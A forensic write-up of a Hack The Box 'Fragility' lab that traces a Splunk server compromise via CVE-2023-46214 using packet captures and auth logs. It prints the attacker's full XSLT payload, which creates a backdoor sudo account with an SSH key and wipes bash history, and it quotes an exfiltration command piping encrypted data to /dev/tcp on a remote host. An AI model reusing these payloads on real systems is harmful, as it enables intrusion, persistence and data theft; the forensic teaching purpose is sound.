





# Fragility (DFIR)

### Scenario
In the monitoring team at our company, each member has access to Splunk web UI using an admin Splunk account. Among them, John has full control over the machine that hosts the entire Splunk system. One day, he panicked and reported to us that an important file on his computer had disappeared. Moreover, he also discovered a new account on the login screen. Suspecting this to be the result of an attack, we proceeded to collect some evidence from his computer and also obtained network capture. Can you help us investigate it?

### Artifacts
| Artifact       | MD5 Hash                         | Password    |
| -------------- | -------------------------------- | ----------- |
| fragility.zip  | e1d81df86e9201f99051c713620fb6c6 | hacktheblue |
| capture.pcapng | 636aa4c094866c852fdebcb1c65d5944 | n/a         |
| Challenge.7z   | c1ebd1edb34e2953356b5200ecc673ac | n/a         |

### Tools
+ Wireshark - PCAP Analysis

### Forensic Analysis
After acquiring the artifacts, I analyzed the PCAP file using Wireshark and exported the HTTP Objects. I found several suspicious requests two of them stands out the most.

The attacker uploaded a malicious `XSLT` file to the Splunk Server.
```ad-tip
XSLT (eXtensible Stylesheet Language Transformations) is the recommended style sheet language for XML. XSLT is far more sophisticated than CSS. With XSLT you can add/remove elements and attributes to or from the output file.
```



The file contained the following payload inside it.

**search.xsl**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exsl="http://exslt.org/common" extension-element-prefixes="exsl">
  <xsl:template match="/">
    <exsl:document href="/opt/splunk/bin/scripts/search.sh" method="text">
        <xsl:text>#!/bin/bash&#10;adduser --shell /bin/bash --gecos nginx --quiet --disabled-password --home /var/www/ nginx&#10;access=$(echo MzlhNmJiZTY0NTYzLTY3MDktOTNhNC1hOWYzLTJjZTc4Mjhm | base64 -d | rev)&#10;echo &quot;nginx:$access&quot; | chpasswd&#10;usermod -aG sudo nginx&#10;mkdir /var/www/.ssh&#10;echo &quot;ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKoougbBG5oQuAQWW2JcHY/ZN49jmeegLqgVlimxv42SfFXcuRgUoyostBB6HnHB5lKxjrBmG/183q1AWn6HBmHpbzjZZqKwSfKgap34COp9b+E9oIgsu12lA1I7TpOw1S6AE71d4iPj5pFFxpUbSG7zJaQ2CAh1qK/0RXioZYbEGYDKVQc7ivd1TBvt0puoogWxllsCUTlJxyQXg2OcDA/8enLh+8UFKIvZy4Ylr4zNY4DyHmwVDL06hcjTfCP4T/JWHf8ShEld15gjuF1hZXOuQY4qwit/oYRN789mq2Ke+Azp0wEo/wTNHeY9OSQOn04zGQH/bLfnjJuq1KQYUUHRCE1CXjUt4cxazQHnNeVWlGOn5Dklb/CwkIcarX4cYQM36rqMusTPPvaGmIbcWiXw9J3ax/QB2DR3dF31znW4g5vHjYYrFeKmcZU1+DCUx075nJEVjy+QDTMQvRXW9Jev6OApHVLZc6Lx8nNm8c6X6s4qBSu8EcLLWYFWIwxqE= support@nginx.org&quot; &gt; /var/www/.ssh/authorized_keys&#10;chown -R nginx:nginx /var/www/&#10;cat /dev/null &gt; /root/.bash_history</xsl:text>
    </exsl:document>
  </xsl:template>
</xsl:stylesheet>
```

Then the TA used Splunks SPL Query Language to execute the payload.


Apparently, the TA exploited [CVE-2023-46214](https://www.cvedetails.com/cve/CVE-2023-46214/) to compromise the Splunk Server. According to [NIST](https://nvd.nist.gov/vuln/detail/CVE-2023-46214): *In Splunk Enterprise versions below 9.0.7 and 9.1.2, Splunk Enterprise does not safely sanitize extensible stylesheet language transformations (XSLT) that users supply. This means that an attacker can upload malicious XSLT which can result in remote code execution on the Splunk Enterprise instance.*

The Splunk Server version was `9.0.5`. We can confirm this by the following data.


It's an authenticated remote code execution vulnerability, and the TA used the following credential to log into the Splunk Admin Panel.
```text
username=johnnyC
password=h3Re15j0hnNy
```

Some how the credential was stolen by the TA.

To search for the default time that was before and the default time that was set after, I took a look inside the `/var/log` directory. And I found two files that seemed archived log.

**vmware-network.log**
```text
+ chmod 0600 /var/log/vmware-network.log
+ date
+ echo Sun 14 Apr 2024 09:57:59 PM +07 : Executing '/etc/vmware-tools/scripts/vmware/network resume-vm'
Sun 14 Apr 2024 09:57:59 PM +07 : Executing '/etc/vmware-tools/scripts/vmware/network resume-vm'
+ echo

+ dirname /etc/vmware-tools/scripts/vmware/network
+ . /etc/vmware-tools/scripts/vmware/../../statechange.subr
+ main resume-vm
+ exitCode=0
+ activeList=/var/run/vmware-active-nics
+ WakeNetworkManager
+ which dbus-send
+ dbusSend=/usr/bin/dbus-send
+ rc=0
+ [ 0 = 0 ]
+ /usr/bin/dbus-send --system --print-reply --dest=org.freedesktop.NetworkManager /org/freedesktop/NetworkManager org.freedesktop.NetworkManager.Enable boolean:true
Error org.freedesktop.NetworkManager.AlreadyEnabledOrDisabled: Already enabled
+ rc=1
+ [ 1 = 0 ]
+ /usr/bin/dbus-send --system --print-reply --dest=org.freedesktop.NetworkManager /org/freedesktop/NetworkManager org.freedesktop.NetworkManager.Sleep boolean:false
Error org.freedesktop.NetworkManager.AlreadyAsleepOrAwake: Already awake
+ rc=1
+ [ 1 = 0 ]
+ /usr/bin/dbus-send --system --print-reply --dest=org.freedesktop.NetworkManager /org/freedesktop/NetworkManager org.freedesktop.NetworkManager.wake
Error org.freedesktop.DBus.Error.UnknownMethod: No such method “wake”
+ rc=1
+ return 1
+ exitCode=1
+ [ 1 != 0 ]
+ sanity_check resume-vm
+ which ip
+ ip_cmd=/usr/sbin/ip
+ which ifconfig
+ ifconfig_cmd=
+ which ifup
+ ifup_cmd=
+ which ifdown
+ ifdown_cmd=
+ [ -z  -a -z /usr/sbin/ip ]
+ [ ! -s /var/run/vmware-active-nics ]
+ save_active_NIC_list
+ local intf_out
+ 
+ [ -n /usr/sbin/ip ]
+ /usr/sbin/ip link show up
+ egrep \bUP\b
+ awk -F: {print $2}
+ /usr/sbin/ip link show lo
+ grep -iq link/ether
+ grep -iq link/ether
+ /usr/sbin/ip link show ens33
+ echo ens33
+ run_network_script start
+ local action=start
+ local rc=0
+ local script
+ true
+ exec_systemctl_service start
+ local rc=1
+ local action=start
+ which systemctl
+ local ctlcmd=/usr/bin/systemctl
+ local service
+ [ -z /usr/bin/systemctl ]
+ /usr/bin/systemctl status systemd-networkd
+ grep -iq not-found
+ service=systemd-networkd
+ break
+ [ -z systemd-networkd ]
+ /usr/bin/systemctl start systemd-networkd
+ rc=0
+ [ 0 = 0 -a systemd-networkd = systemd-networkd -a start = stop ]
+ return 0
+ [ 0 != 0 ]
+ break
+ return 0
+ rescue_NIC
+ local rc=0
+ local intf_out
+ [ -f /var/run/vmware-active-nics ]
+ read nic
+ [ -n /usr/sbin/ip ]
+ /usr/sbin/ip link show ens33 up
+ intf_out=2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 00:0c:29:e1:89:42 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
+ grep -q UP
+ echo 2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000 link/ether 00:0c:29:e1:89:42 brd ff:ff:ff:ff:ff:ff altname enp2s1
+ date
+ echo Sun 14 Apr 2024 09:57:58 PM +07 [rescue_nic] ens33 is already active.
Sun 14 Apr 2024 09:57:58 PM +07 [rescue_nic] ens33 is already active.
+ read nic
+ rm -f /var/run/vmware-active-nics
+ return 0
+ exitCode=0
+ return 0
+ date
+ echo Sun 14 Apr 2024 09:57:58 PM +07 : Finished '/etc/vmware-tools/scripts/vmware/network resume-vm'
Sun 14 Apr 2024 09:57:58 PM +07 : Finished '/etc/vmware-tools/scripts/vmware/network resume-vm'
```

Found the current Timezone offset which is `+07`.

**vmware-network.2.log**
```text
+ chmod 0600 /var/log/vmware-network.log
+ date
+ echo Sat 13 Apr 2024 11:19:41 PM PDT : Executing '/etc/vmware-tools/scripts/vmware/network poweron-vm'
Sat 13 Apr 2024 11:19:41 PM PDT : Executing '/etc/vmware-tools/scripts/vmware/network poweron-vm'
+ echo

+ dirname /etc/vmware-tools/scripts/vmware/network
+ . /etc/vmware-tools/scripts/vmware/../../statechange.subr
+ main poweron-vm
+ exitCode=0
+ activeList=/var/run/vmware-active-nics
+ rm -f /var/run/vmware-active-nics
+ return 0
+ date
+ echo Sat 13 Apr 2024 11:19:41 PM PDT : Finished '/etc/vmware-tools/scripts/vmware/network poweron-vm'
Sat 13 Apr 2024 11:19:41 PM PDT : Finished '/etc/vmware-tools/scripts/vmware/network poweron-vm'
```

We were also able to find the previous Timezone that was set to `PDT`. Using [Epoch Converter](https://www.epochconverter.com/timezones) I was able to find the `PDT` timezone's offset which were `-07`


Next up we need to calculate the dwell time for `nginx` user creation to SSH logout session.
```bash
$ cat auth.log | grep -i nginx
Apr 14 08:00:13 ubuntu groupadd[13358]: group added to /etc/group: name=nginx, GID=1002
Apr 14 08:00:13 ubuntu groupadd[13358]: group added to /etc/gshadow: name=nginx
Apr 14 08:00:13 ubuntu groupadd[13358]: new group: name=nginx, GID=1002
Apr 14 08:00:13 ubuntu useradd[13364]: new user: name=nginx, UID=1002, GID=1002, home=/var/www/, shell=/bin/bash, from=none
Apr 14 08:00:13 ubuntu usermod[13376]: change user 'nginx' password
Apr 14 08:00:13 ubuntu chfn[13383]: changed user 'nginx' information
Apr 14 08:00:13 ubuntu chpasswd[13394]: pam_unix(chpasswd:chauthtok): password changed for nginx
Apr 14 08:00:13 ubuntu usermod[13397]: add 'nginx' to group 'sudo'
Apr 14 08:00:13 ubuntu usermod[13397]: add 'nginx' to shadow group 'sudo'
Apr 14 08:00:21 ubuntu sshd[13461]: Accepted publickey for nginx from 192.168.222.130 port 43302 ssh2: RSA SHA256:zRdVnxnRPJ37HDm5KkRvQbklvc2PfFL3av8W1Jb6QoE
Apr 14 08:00:21 ubuntu sshd[13461]: pam_unix(sshd:session): session opened for user nginx by (uid=0)
Apr 14 08:00:21 ubuntu systemd-logind[673]: New session 7 of user nginx.
Apr 14 08:00:22 ubuntu systemd: pam_unix(systemd-user:session): session opened for user nginx by (uid=0)
Apr 14 08:00:54 ubuntu sudo:    nginx : TTY=pts/2 ; PWD=/opt/splunk/bin/scripts ; USER=root ; COMMAND=/usr/bin/rm -rf search.sh
Apr 14 08:00:54 ubuntu sudo: pam_unix(sudo:session): session opened for user root by nginx(uid=0)
Apr 14 08:00:59 ubuntu sudo:    nginx : TTY=pts/2 ; PWD=/opt/splunk/bin/scripts ; USER=root ; COMMAND=/usr/bin/su
Apr 14 08:00:59 ubuntu sudo: pam_unix(sudo:session): session opened for user root by nginx(uid=0)
Apr 14 08:00:59 ubuntu su: (to root) nginx on pts/2
Apr 14 08:00:59 ubuntu su: pam_unix(su:session): session opened for user root by nginx(uid=0)
Apr 14 08:02:21 ubuntu sudo:    nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/mv /home/johnnycage/Documents/Important.pdf .
Apr 14 08:02:21 ubuntu sudo: pam_unix(sudo:session): session opened for user root by nginx(uid=0)
Apr 14 08:02:54 ubuntu sudo:    nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/openssl enc -aes-256-cbc -iv 4fa17640b7dfe8799f072c65b15f581d -K 3cabc6db78a034f69f16aa8986cf2e2cea05713b1e95ff9b2d80f6a71ae76b7d -in data.zip
Apr 14 08:02:54 ubuntu sudo: pam_unix(sudo:session): session opened for user root by nginx(uid=0)
Apr 14 08:03:01 ubuntu sudo:    nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/rm -rf data.zip Important.pdf
Apr 14 08:03:01 ubuntu sudo: pam_unix(sudo:session): session opened for user root by nginx(uid=0)
Apr 14 08:03:08 ubuntu sshd[13702]: Disconnected from user nginx 192.168.222.130 port 43302
Apr 14 08:03:08 ubuntu sshd[13461]: pam_unix(sshd:session): session closed for user nginx
```

The `useradd` command was issued on  `Apr 14 08:00:13` and the session for nginx user was closed on `Apr 14 08:03:08`. I used the [[Time]] resource's Add Subtract Time website to calculate the time difference. It was 2 minutes and 55 seconds.

Then to find the password of the `nginx` I copied the following snippet from the malicious XSLT file.
```bash
$ access=$(echo MzlhNmJiZTY0NTYzLTY3MDktOTNhNC1hOWYzLTJjZTc4Mjhm | base64 -d | rev);echo "nginx:$access";     
nginx:f8287ec2-3f9a-4a39-9076-36546ebb6a93
```
The password for the `nginx` user is stored inside the `$access` variable.

Task 7 was really hard for me. I first read the attacker `.bash_history` file and fond the following commands the TA ran.
```bash
whoami
cd /opt/splunk/bin/scripts/
ls
sudo rm -rf search.sh 
ls
sudo su
ls
cd /home/johnnycage/
tree
cd ~
ls
sudo mv /home/johnnycage/Documents/Important.pdf .
ls
zip data.zip *
ls
sudo openssl enc -aes-256-cbc -iv $(cut -c 1-32 <<< $(uname -r | md5sum)) -K $(cut -c 1-64 <<< $(date +%s | sha256sum)) -in data.zip | base64 | dd conv=ebcdic > /dev/tcp/192.168.222.130/8080
sudo rm -rf *
ls
exit
```

At a first glance it's a clever trick to hide the used key and iv for the AES-256-CBC algorithm used to encrypt the exfiltrated file. There's a lot of randomness to both the key and iv.

But examining the `auth.log` we found the plain command that was ran by the `nginx` user.

```text
$ cat auth.log | grep -i .zip               
Apr 14 08:02:54 ubuntu sudo:    nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/openssl enc -aes-256-cbc -iv 4fa17640b7dfe8799f072c65b15f581d -K 3cabc6db78a034f69f16aa8986cf2e2cea05713b1e95ff9b2d80f6a71ae76b7d -in data.zip
Apr 14 08:03:01 ubuntu sudo:    nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/rm -rf data.zip Important.pdf
```

We found the Key and the IV for the data.zip file. But, unfortunately the TA deleted the files both `data.zip` and `Important.pdf`. I scoured the whole OS directories and files to find the file but to my ignorance I completely ignored the `capture.pcapng` file.

So, I opened up Wireshark again and searched for the port `8080`.


I followed the TCP stream and exported the data in `ASCII` format.


But, I couldn't decrypt the `data.zip`. Something was not right as I completely ignored another hint from the commands ran by the TA. Before, exfiltrating the data the did some encoding to the data.zip file. 
```bash
sudo openssl enc -aes-256-cbc -iv $(cut -c 1-32 <<< $(uname -r | md5sum)) -K $(cut -c 1-64 <<< $(date +%s | sha256sum)) -in data.zip | base64 | dd conv=ebcdic > /dev/tcp/192.168.222.130/8080
```

They first converted the encrypted data.zip file to `base64` and then used `dd conv=ebcdic` to convert the codec from `ASCII` to `EBCDIC`. 

This time I exported the whole TCP stream in `EBCDIC` which reversed the `EBCDIC` conversion back to `ASCII`.

We can see the content is now in `base64` when I selected show data as `EBCDIC`.

Then, decoded the `base64` back to encrypted `data.zip`
```bash
$ base64 -di data > data.zip
```

Now we got the encrypted data.zip file. We can now successfully try to decrypt it.
```bash
$ openssl enc -d -aes-256-cbc -iv 4fa17640b7dfe8799f072c65b15f581d -K 3cabc6db78a034f69f16aa8986cf2e2cea05713b1e95ff9b2d80f6a71ae76b7d -in data.zip -out data_dec.zip

$ unzip data_dec.zip
Archive:  data_dec.zip
  inflating: Important.pdf
```

Found, the `Important.pdf`. And found the answer to Task 7.


For the Task 8, we can easily find the credential using Wireshark.


### Summary
In this Sherlock, the TA exploited the Splunk Server to run a malicious bash script embedded in XSLT file. The bash script contained a persistence mechanism to add a new user onto the system and to the sudo group. The TA also injected a public key to the newly created user `nginx`'s `.ssh/authorized_keys` to access the backdoor account. After that the TA logged in as `nginx` and elevated their privileges to `root` using `su`. Then the TA moved an important file from `johnycage`'s `Documents` directory and encrypted the file and exfiltrated the file to his own C2 server `192.168.222.130:8080`.